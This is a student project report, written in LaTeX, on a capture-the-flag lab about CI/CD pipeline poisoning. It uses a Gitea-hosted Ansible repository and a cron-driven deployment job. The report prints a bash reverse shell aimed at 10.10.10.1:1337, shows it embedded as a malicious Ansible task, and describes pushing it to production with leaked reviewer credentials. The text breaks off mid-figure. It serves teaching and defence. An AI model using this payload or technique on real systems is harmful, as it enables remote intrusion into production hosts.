\documentclass{article}
\usepackage[margin=3cm]{geometry}
\usepackage{graphicx}
\usepackage{url}

\title{Final Report - CI/CD Pipeline Poisoning}
\author{Jack Lindberg}

\begin{document}

\maketitle

\section{Introduction}

Continuous Integration and Continuous Delivery (CI/CD) is the practice of automating the stages that code, or any other kind of software, must pass through from a developer's commit to a running production system. Continuous Integration (CI) means that every change pushed to a shared repository is automatically built and tested, catching integration errors early before they affect end users \cite{fowlerCI}. Continuous Delivery (CD) is the next step in this process where it automatically prepares validated builds for release. Continuous Deployment takes the final step of pushing every passing change directly to production. Together these stages form a so called pipeline: an automated chain that handles code from an individual developer's commit to the deployment to a running live system (production).

Modern development teams rely heavily on CI/CD to ship software quickly and with confidence. As a consequence, these pipelines have become critical infrastructure. They typically hold production secrets and the authority to modify live systems, often with high-level credentials \cite{owaspPPE5}. This makes them high-value targets and a resource that is important to protect, while still not being able to be airgapped as they need to be able to access the production environment to do their work. An adversary who can influence what the pipeline executes gains the same level of access as the pipeline itself, without ever touching a production system directly \cite{owaspPPE}. With the correct credentials and a big enough code base these changes can even go undetected for a long time in larger organizations or teams.

Configuration management tools such as Ansible \cite{ansibleDocs} are commonly driven from CI/CD pipelines. An Ansible playbook committed to a repository can be automatically applied to production hosts on every push, using the same SSH credentials the operations team uses. This project targets exactly that and shows the consequences of what access to such a code base can result in.

\section{Background}

\subsection{Supply Chain Attacks and CI/CD}

A supply chain attack targets the infrastructure used to build, test, or distribute software rather than the systems directly. By compromising a service hosting the dependencies, for example a build system, a dependency repository, or a deployment pipeline, an attacker's code reaches systems automatically and is automatically trusted, since it arrives through a channel the organization already relies on and trusts \cite{owaspPPE}.

CI/CD pipeline poisoning is a specific technique within this family. An attacker who can introduce malicious code into a pipeline's source repository does not need to exploit any vulnerability in the production system: the pipeline itself carries out the attack on their behalf. The OWASP Top 10 CI/CD Security Risks classifies this as CICD-SEC-4: Poisoned Pipeline Execution \cite{owaspPPE}. MITRE ATT\&CK catalogs it as its own Enterprise Execution technique \cite{mitrePoisonedPipeline}. While pipeline attacks have existed as long as automated build systems have, this category was formally named and classified in 2022, when OWASP published their CI/CD Security Top 10 \cite{owaspPPE} and MITRE added Poisoned Pipeline Execution as a dedicated technique \cite{mitrePoisonedPipeline}.

The attack variant is further classified based on how the attacker gains influence over the pipeline. A Direct PPE (d-PPE) occurs when the attacker can push directly to the branch the pipeline tracks, giving immediate execution without any review \cite{bishopFoxPPE}. An Indirect PPE (i-PPE) applies when the tracked branch requires a review step, but the attacker can manipulate or impersonate a reviewer. In this project the production branch is protected and requires an approved pull request from a designated reviewer; however, since the attacker holds credentials for both a contributor account and the reviewer account, that control can be bypassed entirely.

The intended security model for CI/CD pipelines assumes a separation of responsibilities: source code changes are peer-reviewed before reaching the deployment branch, the pipeline agent holds only the credentials it strictly needs to do its job, and all pipeline activity is logged and traceable. Branch protection rules, mandatory pull request reviews, and scoped service accounts are the primary technical controls used to enforce this model \cite{owaspPPE5}.

\subsection{Assumptions}

Three conditions must hold for a d-PPE attack to succeed \cite{bishopFoxPPE}:

\begin{enumerate}
    \item \textbf{Automatic execution} - the pipeline executes code from the repository without manual approval for each run.
    \item \textbf{Attacker write access} - the adversary can modify the code the pipeline will execute.
    \item \textbf{Privilege gap} - the pipeline agent runs with credentials or network access the attacker does not otherwise possess.
\end{enumerate}

None of these conditions are particularly rare. Pipelines are designed to run automatically \cite{fowlerCI}; broad write access is common in small teams and pipeline agents typically hold deployment keys that go well beyond what any individual contributor needs \cite{owaspPPE}.

\subsection{Delimitations}

The following are explicitly outside of the scope for this project and are not intended solutions:

\begin{itemize}
    \item Exploiting vulnerabilities in the Gitea software itself.
    \item Any attacks against the deployment infrastructure.
    \item Post-exploitation beyond obtaining an initial reverse shell on the flag-holder machine
    \item Obtaining credentials any other way than using the ones provided
\end{itemize}

\subsection{Why Prevention is Difficult}

The core problem with prevention is that write access to source code is a legitimate business need. Restricting it in big organizations slows development without eliminating the risk, since a compromised legitimate account grants the same access anyway \cite{owaspPPE}. Even with mandatory code review, the organization must trust that reviewers catch malicious changes, which can be as small as a single line in a massive repository \cite{bishopFoxPPE}.

Monitoring pipeline execution for malicious behavior is also difficult. Unlike traditional intrusion detection, there is no clean separation between expected and unexpected activity: the pipeline is supposed to modify systems, spawn processes, and make network connections \cite{owaspPPE}.

\subsection{Countermeasures}

Several controls reduce the attack surface, though none eliminates the risk on its own. Requiring mandatory code review before changes reach the pipeline-tracked branch makes direct d-PPE from a single compromised account harder. Scoping the credentials available to the pipeline to the minimum needed for its specific task  limits the damage if it is exploited \cite{owaspPPE5}. There are many other countermeasures but all of them make the Continuous Integration more and more cumbersome with growing teams and expectations. 

\section{Implementation}

\subsection{Technical Details}

The environment is built with Docker Compose and consists of two containers connected by an isolated internal Docker network. Only port 3000 (Gitea) on the deployment container is exposed to the host attacker.

\subsubsection{Deployment Container}

This container contains 2 main services that together form the CI/CD pipeline that is aimed towards the other container.

The first and main part that the attacker will interact with is a Gitea instance that hosts a repository of Ansible playbooks. The attacker can access this repository by using any of the supplied "leaked" credentials. This repository consists of two branches; development and production. The production branch is the branch that gets deployed to the live system, but it is protected and is only allowed to be written to by requesting a pull request \cite{giteaPR} that has to be accepted by the jacklind account.

The other part of the container is a cronjob that runs every 2 minutes. The cronjob pulls down the current production branch of the Ansible playbook from Gitea and runs the playbook. If the attacker has added its malicious task it will be run by this script and therefore deployed. This cronjob uses ssh to deploy it using a ssh key pair set up as a trusted key on the flag-holder machine.

\subsubsection{Flag-Holder Container}

This container runs only an SSH server and holds the flag at /home/target/flag.txt. It is reachable exclusively via SSH from the deployment machine using the shared key pair. No port is exposed to the host, making it unreachable by the attacker except through a successfully poisoned pipeline.

\subsection{Repository Contents}

The project repository contains:

\begin{itemize}
    \item A project proposal already accepted
    \item This final report
    \item Instructions for running the environment, including software dependencies.
    \item All source files for the Docker Compose environment.
    \item The leaked credential list provided to participants as their starting point.
\end{itemize}

\section{Exploit}

\subsection{Attacker constraints}
The attacker's sole access vector is the Gitea \cite{giteaDocs} instance exposed on port 3000. They possess a short list of leaked credentials for user accounts in the target organization, one of which grants write access to the Ansible \cite{ansibleDocs} configuration repository. The following are the constraints put in place for the attacker:

\begin{itemize}
    \item The attacker has no SSH or shell access to the deployment machine.
    \item The attacker has no direct network access to the flag-holder machine.
    \item The attacker has no administrative access to the Gitea instance.
    \item No attempt is made to exploit vulnerabilities in the Gitea software itself.
\end{itemize}

The goal is to achieve code execution on the flag-holder machine exclusively by injecting a malicious task into the Ansible playbook and waiting for the pipeline to apply it. As the attack would otherwise not really be about CI/CD poisoning but rather something else.

\subsection{Prerequisites}

The participant receives a short list of credentials for multiple user accounts in the target organization's Gitea instance. These credentials are for the users \textbf{jacklind} and \textbf{andand}. 

Jacklind has the permissions to allow Pull Requests (PR) \cite{giteaPR} to the production branch but not when it is their own PR. Meaning that some other user must first request a merge from some branch into the production branch.

\subsection{Complete attack flow}

Figure 1 shows the full attack sequence. Starting from the leaked credentials, the attacker uses the Gitea web interface to push a malicious playbook change via a pull request, approves it using the reviewer account, and then waits for the automated cron-driven pipeline to pull and execute the playbook on the flag-holder machine.

\newpage

\begin{figure}
    \centering
    
\includegraphics[width=0.9\linewidth]{images/attack-sequence-diagram.png}
    \caption{Full Attack Sequence}
    \label{fig:attack-seq}
\end{figure}



\subsection{Attack Stages}

The showcase of this attack will be presented using the different stages of the industry standard Cyber Kill Chain \cite{crowdstrikeCyberKillChain}.

\subsubsection{Reconnaissance}

After enumerating the IP of the deploy server the attacker will find that port 3000 is hosting a Gitea instance that requires credentials \cite{mitreRecon}. As these have already been provided the attacker will log in and start finding what kinds of repositories may be found here. The only one that the attacker has access to is the repository called \textbf{corp/infra-pipeline}. This repository looks like Figure 2.

According to the README we have found a branch that is made for testing and this code is never in any way introduced to the live environment. By reading the content of the Ansible inventory we find that this seems to be a repository for deploying some Ansible tasks to a machine named \textbf{flag-holder} using ssh.

In the README they also mention that Jack has to review and has the power to approve PRs to production. So we can also discern that there is a production branch. 

The production branch (see Figure 3) looks very much the same. However there is one big difference. In the README there is a warning about testing the code in development as \textit{"this code will be deployed on the LIVE SYSTEM"}. It is also mentioned that Jack has the final authority to merge changes to the production branch.

We now know what to do. We have to somehow get our own code pushed to the production branch of the repository so that it is then run on the flag-holder machine.

\clearpage
\begin{figure}
    \centering
    
\includegraphics[width=0.75\linewidth]{images/git-repo-development.png}
    \caption{Gitea Repository - Development Branch}
    \label{fig:dev-branch}
\end{figure}

\begin{figure}
    \centering
    
\includegraphics[width=0.75\linewidth]{images/git-repo-production.png}
    \caption{Gitea Repository - Production Branch}
    \label{fig:prod-branch}
\end{figure}
\clearpage

\subsubsection{Weaponization}

The task is clear and the first step of doing this is to figure out what we want to run on the remote host. We really have no insight into where the flag might be on the system and because we might want to access more information we would want to have a reverse shell on the system. 

Figure 4 is an example of a task found in the \textbf{playbook.yml} file in the production branch of the repository. What this tells us is the fact that we can create a task that runs any arbitrary bash command using Ansible. This task will be run by the user \textbf{target} according to the \textbf{inventory.ini} file (see Figure 5).

\begin{figure}
{\small\begin{verbatim}
[YAML]
- name: Verify deployment
  shell: |
      echo "$(date '+%Y-%m-%d %H:%M:%S') deployment ok" >> /home/target/app/logs/deploy.log
  args:
      executable: /bin/bash
\end{verbatim}}
    \caption{Example Ansible task on the production branch}
    \label{fig:example-task}
\end{figure}

\begin{figure}
{\small\begin{verbatim}
[INI]
[production]
flag-holder ansible_user=target ansible_ssh_common_args='-o StrictHostKeyChecking=no'
\end{verbatim}}
    \caption{Content of the inventory.ini file on the production branch}
    \label{fig:inventory}
\end{figure}

We therefore want to find something that we can run in bash that makes it possible to get shell access to the machine, with the restrictions that we have no idea what programs are installed on the machine. The only real thing we know for sure is the fact that it has bash, if the production branches content is correct from the beginning that is.

The next step is therefore to find a bash reverse shell. The nice thing about this is the fact that there is no real end to them online. I opted to use the tool Hacktools \cite{hacktools}, a browser extension, to generate a reverse shell that sends a bash shell to a specified IP and port (See Figure 6). If we want this to run on the target we just need to create a task in the Ansible format that runs this command on the remote target. We can do this by simply copying the earlier example task and replacing the command with our malicious one. See Figure 7 for our final malicious reverse shell Ansible task.

\clearpage

\begin{figure}
    \begin{verbatim}
#!/usr/bin/env /bin/bash

bash -c 'exec bash -i &>/dev/tcp/10.10.10.1/1337 <&1'
    \end{verbatim}
    \caption{Bash reverse shell that sends to 10.10.10.1:1337}
    \label{fig:rev-shell-script}
\end{figure}

\begin{figure}
    \begin{verbatim}
[YAML]
- name: Reverse shell
  shell: |
      bash -c 'exec bash -i &>/dev/tcp/10.10.10.1/1337 <&1'
  args:
      executable: /bin/bash
    \end{verbatim}
    \caption{Our malicious reverse shell task}
    \label{fig:malicious-task}
\end{figure}

\subsubsection{Delivery and Exploitation}

With our malicious Ansible task written we now have to figure out how to get this task to the production branch. We have gotten some hints that the \textbf{Jack} user, which we have credentials to, is one of the keys for doing this, as that user has the right to approve Pull Requests to the production branch. So the plan should be as follows:
\begin{enumerate}
    \item Get our malicious Ansible task in the repository
    \item Request a merge of the change to the production branch \cite{giteaPR}
    \item Approve the request using \textbf{jacklinds} credentials
    \item Merge the change to the production branch
\end{enumerate}

For step one it is quite simple as we have credentials that are allowed to write to the repository. We simply do the following in the terminal

\begin{verbatim}
    $ git clone http://10[.]10[.]10[.]2:3000/corp/infra-pipeline.git
    $ cd infra-pipeline        # Enter the repository
    $ git checkout production  # Move to the production branch
    $ git checkout -b attack   # Creating a new branch based on the content of prod
        # [Insert malicous task]
    $ git add -A
    $ git commit -m "Attack"
        # Using any of the credentials
    $ git push --set-upstream origin attack
\end{verbatim}

Step 1 done. Now we need to request to merge the change to the production branch. This can be done either by using the web UI of Gitea, the Tea command line tool or the API built into Gitea. The simplest way is to simply use the Pull Request tab in the web UI. There is however one thing we have to have in mind. Because the admins have not been completely careless when configuring the repository. Because the \textbf{jacklind} user does not have permissions to approve its own pull request. Meaning that we do have to use the \textbf{andand} credentials for creating the PR and using the \textbf{jacklind} credentials to approve it. 

After requesting a PR as \textbf{andand}, approving it as \textbf{jacklind} and merging it using \textbf{andand} we now have our malicious Ansible task on the production branch

\begin{figure}
    \centering
